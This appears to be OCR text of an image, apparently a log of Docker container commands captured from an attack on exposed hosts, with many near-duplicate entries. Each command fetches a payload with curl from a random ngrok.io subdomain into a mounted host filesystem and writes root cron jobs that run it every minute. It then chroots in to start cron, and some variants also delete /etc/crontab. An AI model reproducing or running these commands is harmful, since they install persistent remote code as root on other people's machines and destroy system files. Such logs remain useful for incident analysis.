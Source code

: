 Image: sha256:e007049bc284809364cf579a4998d4179e44f92305eb722e43b6c50783374f89
        Command: /bin/sh -c 'curl --retry 3 -m 60 -o /tmp517642/tmp/tmpfiled605b56900e830a65f7ccab2c64ab433d "http://1dd55e2b.ngrok.io/f/serve?l=d&r=d605b56900e830a65f7ccab2c64ab433";echo "* * * * * root sh /tmp/tmpfiled605b56900e830a65f7ccab2c64ab433d" >/tmp517642/etc/c
rontab;echo "* * * * * root sh /tmp/tmpfiled605b56900e830a65f7ccab2c64ab433d" >/tmp517642/etc/cron.d/1m;chroot /tmp517642 sh -c "cron || crond"'

Image: sha256:e007049bc284809364cf579a4998d4179e44f92305eb722e43b6c50783374f89
      Command: /bin/sh -c 'curl --retry 3 -m 60 -o /tmp9d82f7/tmp/tmpfilefc4c3fdaa42fe358fc9d5d9cf58f4b58s "http://cf8b6880.ngrok.io/z?r=fc4c3fdaa42fe358fc9d5d9cf58f4b58&i=fc6d4c900f2283af358f44819557e7cd7cdca402e4b95aed8c18666621b987e7783931743f7a046b5ef3a6ec4fa69e0ec
62cd1f81eaea0ce1a37970105b2409837c78079b0227586965db4c937c4d9a643d0999d2a91cbfe2e7f76aa2d40d8745552a31a1d19cf022092279e10423a60";rm -rf /tmp9d82f7/etc/crontab;echo "* * * * * root sh /tmp/tmpfilefc4c3fdaa42fe358fc9d5d9cf58f4b58s" >/tmp9d82f7/etc/cron.d/crontab;chroot /tm
p9d82f7 sh -c "cron || crond"'


      Image: sha256:e007049bc284809364cf579a4998d4179e44f92305eb722e43b6c50783374f89
      Command: /bin/sh -c 'curl --retry 3 -m 60 -o /tmpe3ab59/tmp/tmpfilefc4c3fdaa42fe358fc9d5d9cf58f4b58s "http://56762ca6.ngrok.io/z?r=fc4c3fdaa42fe358fc9d5d9cf58f4b58&i=c1a7853517fa7734cbcf7d6b3185c07c12f652037880f40ca1a9e5b02e8a923d6e1b8ab304ea530dbcb07e2a58b151bf2
88f4540cad215a584477abb29c5a8346a53d57347778dfbecdab390ebad94e31c8fbcb32eda9e98095769bdebe7a710b621cb1832b472b77b1ac29e5bacce65";rm -rf /tmpe3ab59/etc/crontab;echo "* * * * * root sh /tmp/tmpfilefc4c3fdaa42fe358fc9d5d9cf58f4b58s" >/tmpe3ab59/etc/cron.d/crontab;chroot /tm
pe3ab59 sh -c "cron || crond"'
      Image: sha256:e007049bc284809364cf579a4998d4179e44f92305eb722e43b6c50783374f89
      Command: /bin/sh -c 'curl --retry 3 -m 60 -o /tmp6205d5/tmp/tmpfilefc4c3fdaa42fe358fc9d5d9cf58f4b58s "http://44922efc.ngrok.io/z?r=fc4c3fdaa42fe358fc9d5d9cf58f4b58&i=19b8f9641ea6ac315fe5b69d7c226f7d476cf55d16228a437f341a007d08c96ffebda88a1dea5cc5b5e228741578b7c17
b61815c3459f1c179879efa053e4c9ce739b67d607b994b788d05c5d899faa73f150c5ee14bbd275fce03d06f604a3e630b3728cac0647e3f3dbe9e145c8ab77d15590ea1099583";rm -rf /tmp6205d5/etc/crontab;echo "* * * * * root sh /tmp/tmpfilefc4c3fdaa42fe358fc9d5d9cf58f4b58s" >/tmp6205d5/etc/cron.d/cr
ontab;chroot /tmp6205d5 sh -c "cron || crond"'
      Image: sha256:e007049bc284809364cf579a4998d4179e44f92305eb722e43b6c50783374f89
      Command: /bin/sh -c 'curl --retry 3 -m 60 -o /tmpa04eff/tmp/tmpfilefc4c3fdaa42fe358fc9d5d9cf58f4b58s "http://3dcf669c.ngrok.io/z?r=fc4c3fdaa42fe358fc9d5d9cf58f4b58&i=f933edc3845b8ef00697c9882626e09f3887b4495e6167959988dd79d47b9f55cb597122ea04161d3f80e2be4fc6d178e
db6bf6c39491969bfb8a27788673bc0042f39d5bdc46438175d9f6ce35c4be931ace567c416d5e6687c735315b1b7276873b915b3c549809f52ab054f6ea97628033150f331532e";rm -rf /tmpa04eff/etc/crontab;echo "* * * * * root sh /tmp/tmpfilefc4c3fdaa42fe358fc9d5d9cf58f4b58s" >/tmpa04eff/etc/cron.d/cr
ontab;chroot /tmpa04eff sh -c "cron || crond"'
      Image: sha256:e007049bc284809364cf579a4998d4179e44f92305eb722e43b6c50783374f89
      Command: /bin/sh -c 'curl --retry 3 -m 60 -o /tmp1e289e/tmp/tmpfilefc4c3fdaa42fe358fc9d5d9cf58f4b58s "http://b99f0b79.ngrok.io/z?r=fc4c3fdaa42fe358fc9d5d9cf58f4b58&i=995a712ec8dbe88b7e33fe5ec12ce2ce874b7684c585578d41ca35e25b71cf40b05a51b59092c235dfa181b55dd6a36f5
3bbd1603251f6a7c42afc69f3f6c9fb503c71977bf252e9248081720d4ea40aea3ae43efe7502c8572337ed17831fa0c6db33a3cb3513f0bb155ec94368097f";rm -rf /tmp1e289e/etc/crontab;echo "* * * * * root sh /tmp/tmpfilefc4c3fdaa42fe358fc9d5d9cf58f4b58s" >/tmp1e289e/etc/cron.d/crontab;chroot /tm
p1e289e sh -c "cron || crond"'



Image: sha256:e007049bc284809364cf579a4998d4179e44f92305eb722e43b6c50783374f89
       Command: /bin/sh -c 'curl --retry 3 -m 60 -o /tmp9d82f7/tmp/tmpfilefc4c3fdaa42fe358fc9d5d9cf58f4b58s "http://cf8b6880.ngrok.io/z?r=fc4c3fdaa42fe358fc9d5d9cf58f4b58&i=fc6d4c900f2283af358f44819557e7cd7cdca402e4b95aed8c18666621b987e7783931743f7a046b5ef3a6ec4fa69e0ec
62cd1f81eaea0ce1a37970105b2409837c78079b0227586965db4c937c4d9a643d0999d2a91cbfe2e7f76aa2d40d8745552a31a1d19cf022092279e10423a60";rm -rf /tmp9d82f7/etc/crontab;echo "* * * * * root sh /tmp/tmpfilefc4c3fdaa42fe358fc9d5d9cf58f4b58s" >/tmp9d82f7/etc/cron.d/crontab;chroot /tm
p9d82f7 sh -c "cron || crond"'
       Image: sha256:e007049bc284809364cf579a4998d4179e44f92305eb722e43b6c50783374f89
       Command: /bin/sh -c 'curl --retry 3 -m 60 -o /tmpe3ab59/tmp/tmpfilefc4c3fdaa42fe358fc9d5d9cf58f4b58s "http://56762ca6.ngrok.io/z?r=fc4c3fdaa42fe358fc9d5d9cf58f4b58&i=c1a7853517fa7734cbcf7d6b3185c07c12f652037880f40ca1a9e5b02e8a923d6e1b8ab304ea530dbcb07e2a58b151bf2
88f4540cad215a584477abb29c5a8346a53d57347778dfbecdab390ebad94e31c8fbcb32eda9e98095769bdebe7a710b621cb1832b472b77b1ac29e5bacce65";rm -rf /tmpe3ab59/etc/crontab;echo "* * * * * root sh /tmp/tmpfilefc4c3fdaa42fe358fc9d5d9cf58f4b58s" >/tmpe3ab59/etc/cron.d/crontab;chroot /tm
pe3ab59 sh -c "cron || crond"'
       Image: sha256:e007049bc284809364cf579a4998d4179e44f92305eb722e43b6c50783374f89
       Command: /bin/sh -c 'curl --retry 3 -m 60 -o /tmp6205d5/tmp/tmpfilefc4c3fdaa42fe358fc9d5d9cf58f4b58s "http://44922efc.ngrok.io/z?r=fc4c3fdaa42fe358fc9d5d9cf58f4b58&i=19b8f9641ea6ac315fe5b69d7c226f7d476cf55d16228a437f341a007d08c96ffebda88a1dea5cc5b5e228741578b7c17
b61815c3459f1c179879efa053e4c9ce739b67d607b994b788d05c5d899faa73f150c5ee14bbd275fce03d06f604a3e630b3728cac0647e3f3dbe9e145c8ab77d15590ea1099583";rm -rf /tmp6205d5/etc/crontab;echo "* * * * * root sh /tmp/tmpfilefc4c3fdaa42fe358fc9d5d9cf58f4b58s" >/tmp6205d5/etc/cron.d/cr
ontab;chroot /tmp6205d5 sh -c "cron || crond"'
       Image: sha256:e007049bc284809364cf579a4998d4179e44f92305eb722e43b6c50783374f89
       Command: /bin/sh -c 'curl --retry 3 -m 60 -o /tmpa04eff/tmp/tmpfilefc4c3fdaa42fe358fc9d5d9cf58f4b58s "http://3dcf669c.ngrok.io/z?r=fc4c3fdaa42fe358fc9d5d9cf58f4b58&i=f933edc3845b8ef00697c9882626e09f3887b4495e6167959988dd79d47b9f55cb597122ea04161d3f80e2be4fc6d178e
db6bf6c39491969bfb8a27788673bc0042f39d5bdc46438175d9f6ce35c4be931ace567c416d5e6687c735315b1b7276873b915b3c549809f52ab054f6ea97628033150f331532e";rm -rf /tmpa04eff/etc/crontab;echo "* * * * * root sh /tmp/tmpfilefc4c3fdaa42fe358fc9d5d9cf58f4b58s" >/tmpa04eff/etc/cron.d/cr
ontab;chroot /tmpa04eff sh -c "cron || crond"'
       Image: sha256:e007049bc284809364cf579a4998d4179e44f92305eb722e43b6c50783374f89
       Command: /bin/sh -c 'curl --retry 3 -m 60 -o /tmp1e289e/tmp/tmpfilefc4c3fdaa42fe358fc9d5d9cf58f4b58s "http://b99f0b79.ngrok.io/z?r=fc4c3fdaa42fe358fc9d5d9cf58f4b58&i=995a712ec8dbe88b7e33fe5ec12ce2ce874b7684c585578d41ca35e25b71cf40b05a51b59092c235dfa181b55dd6a36f5
3bbd1603251f6a7c42afc69f3f6c9fb503c71977bf252e9248081720d4ea40aea3ae43efe7502c8572337ed17831fa0c6db33a3cb3513f0bb155ec94368097f";rm -rf /tmp1e289e/etc/crontab;echo "* * * * * root sh /tmp/tmpfilefc4c3fdaa42fe358fc9d5d9cf58f4b58s" >/tmp1e289e/etc/cron.d/crontab;chroot /tm
p1e289e sh -c "cron || crond"'

Image: sha256:e8a09e98b9df6e823ecb6e176032557101de38d71de4cfa30fc55721fff6a838
	Command: /bin/sh -c 'curl --retry 3 -m 60 -o /tmp9279e0/tmp/tmpfile74055e6e67984a0ae1f1fe86f8882d55d "http://707dac5c.ngrok.io/f/serve?l=d&r=74055e6e67984a0ae1f1fe86f8882d55";echo "* * * * * root sh /tmp/tmpfile74055e6e67984a0ae1f1fe86f8882d55d" >/tmp9279e0/etc/crontab;echo "* * * * * root sh /tmp/tmpfile74055e6e67984a0ae1f1fe86f8882d55d" >/tmp9279e0/etc/cron.d/1m;chroot /tmp9279e0 sh -c "cron || crond"'

	Image: sha256:e007049bc284809364cf579a4998d4179e44f92305eb722e43b6c50783374f89
	Command: /bin/sh -c 'curl --retry 3 -m 60 -o /tmp9d7396/tmp/tmpfile74055e6e67984a0ae1f1fe86f8882d55d "http://58051f16.ngrok.io/f/serve?l=d&r=74055e6e67984a0ae1f1fe86f8882d55";echo "* * * * * root sh /tmp/tmpfile74055e6e67984a0ae1f1fe86f8882d55d" >/tmp9d7396/etc/crontab;echo "* * * * * root sh /tmp/tmpfile74055e6e67984a0ae1f1fe86f8882d55d" >/tmp9d7396/etc/cron.d/1m;chroot /tmp9d7396 sh -c "cron || crond"'

	Image: sha256:e007049bc284809364cf579a4998d4179e44f92305eb722e43b6c50783374f89
	Command: /bin/sh -c 'curl --retry 3 -m 60 -o /tmpe7903d/tmp/tmpfile74055e6e67984a0ae1f1fe86f8882d55d "http://8cea1aa4.ngrok.io/f/serve?l=d&r=74055e6e67984a0ae1f1fe86f8882d55";echo "* * * * * root sh /tmp/tmpfile74055e6e67984a0ae1f1fe86f8882d55d" >/tmpe7903d/etc/crontab;echo "* * * * * root sh /tmp/tmpfile74055e6e67984a0ae1f1fe86f8882d55d" >/tmpe7903d/etc/cron.d/1m;chroot /tmpe7903d sh -c "cron || crond"'
